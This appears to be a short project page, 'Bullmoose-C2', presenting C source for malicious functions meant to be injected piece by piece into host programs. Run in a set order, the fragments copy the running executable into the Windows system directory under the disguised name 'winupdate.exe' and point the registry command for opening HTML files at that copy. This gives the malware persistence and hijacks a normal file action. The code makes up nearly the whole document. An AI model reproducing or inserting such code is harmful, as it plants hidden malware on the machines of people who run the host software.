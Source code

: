 # Bullmoose-C2

Bullmoose-C2 is `111432`.

```c
char MyPath[256];
char CpyPath[256];
HKEY Key32;
```

The `*` in `malicious_*` is the order injecting in the host code.
The `*` in `if ((* - order) == 1)` is the order that malicious code should run.
The `*` in `if (unorder == 3)` is the number of repetition.

```c
void malicious_1() {
  pthread_mutex_lock(&mutex);
  if ((1 - order) == 1) {
    unorder++;
    if (unorder == 3) {
      order = 1;
      GetModuleFileName(NULL, MyPath, sizeof(MyPath));
      GetSystemDirectory(CpyPath, sizeof(CpyPath));
    }
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_2() {
  pthread_mutex_lock(&mutex);
  if ((4 - order) == 1) {
    order = 4;
    CopyFile(MyPath, CpyPath, FALSE);
    RegSetValueEx(Key32, "", 0, REG_SZ, CpyPath, strlen(CpyPath));
    RegCloseKey(Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_3() {
  pthread_mutex_lock(&mutex);
  if ((3 - order) == 1) {
    order = 3;
    RegOpenKeyEx(HKEY_CLASSES_ROOT, 
      "htmlfile\\shell\\opennew\\command", 0,
      KEY_WRITE, &Key32);
  }
  pthread_mutex_unlock(&mutex);
}
```
```c
void malicious_4() {
  pthread_mutex_lock(&mutex);
  if ((2 - order) == 1) {
    order = 2;
    strcat(CpyPath, "\\winupdate.exe");
    strcat(CpyPath, " %1");
  }
  pthread_mutex_unlock(&mutex);
}
```
